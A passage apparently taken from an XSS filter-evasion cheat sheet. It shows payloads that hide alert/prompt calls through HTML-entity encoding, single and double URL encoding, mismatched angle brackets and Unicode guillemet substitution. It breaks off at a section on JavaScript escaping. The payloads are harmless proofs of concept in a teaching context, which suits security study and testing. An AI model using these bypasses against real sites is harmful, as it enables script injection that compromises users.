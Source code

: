 use cyberchef to do html encoding.

```
<img/src=a/onerror=&#x70;&#x72;&#x6f;&#x6d;&#x70;&#x74;&#x28;1&#x29;>
<iframe src=&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;1&#x29;>
```


<b>Tag Brackets</b>

you can use url encoding to hide tag brackets

`<img onerror=alert(1) src=a>` becomes

```
%3Cimg%20onerror=alert(1)%20src=a%3E
```

you can do double encode

```
%253Cimg%2520onerror=alert(1)%2520src=a%253E
```


<b>mismatching tag brackets</b>
some filters identify HTML tags by simply 
matching and opening and closing angle brackets,
extrating the contents and comparing to black list 
your could confuse the parse by following trick.
```
<<script>alert(1);//<</script>
```
you could use superflurious brackets which browser would tolerate.

<b>unicode double angle</b>
when a unusual unicode characters into their nearest 
ASCII equivalents based on similarity of ther glyphs.

`%00AB img onerror=alert(1) src=a %00BB`

becomes 
`«img onerror=alert(1) src=a»`

there is a chance that some application that would 
translate quotation marks into brackets

<hr>
<h4>
<b>6. Bypassing filter: Script Code</b>
</h4>

There are filters that would block certain 
javascript keywords and expression to render them ineffective.
They may also block useful syntax such as dot, brackets and quotes.
one strategy is to use obfuscation 

<b>using JavaScript Escaping</b>
